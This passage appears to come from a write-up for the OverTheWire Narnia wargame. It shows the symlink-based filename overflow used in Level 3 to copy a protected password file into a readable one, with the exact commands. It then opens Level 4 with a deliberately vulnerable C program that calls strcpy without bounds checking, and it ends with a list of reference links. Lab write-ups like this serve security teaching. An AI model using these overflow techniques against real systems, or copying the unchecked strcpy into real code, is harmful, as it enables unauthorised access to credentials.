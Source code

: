 We want two things happening in *ifile*: first, to read the password file, then to overflows *ofile*, making it point to a file we have access to read.

The best way to put all of this in one input name is by creating a symbolic link with the following rules:

1. Point to */etc/narnia_pass/narnia4*.
2. Fill the 32 bytes of the *ifile* array with junk.
3. End with some file name which we had created before, and we have permission to read (we can just use ```touch``` to create an empty file).

The result, for a file name *out*, is:
```sh
$ ln -s /etc/narnia_pass/narnia4 $(python -c "print 'A'*32 + 'out'")
```

Now we can just run it and retrieve our password:
```sh
narnia3@melinda:/tmp$ /narnia/narnia3 `python -c "print 'A'*32 + 'out'"`copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAout to a safer place... (out)
narnia3@melinda:/tmp$ cat out
```





_______


## Level 4: Classic Buffer Overflow with NOP

### Step 1: Understanding the Problem

This fifth level starts with:

```sh
narnia4@melinda:/narnia$ ./narnia4
narnia4@melinda:/narnia$ cat narnia4.c

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
 int i;
 char buffer[256];

 for(i = 0; environ[i] != NULL; i++)
 memset(environ[i], '\0', strlen(environ[i]));

 if(argc>1)
 strcpy(buffer,argv[1]);

 return 0;
}
```


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP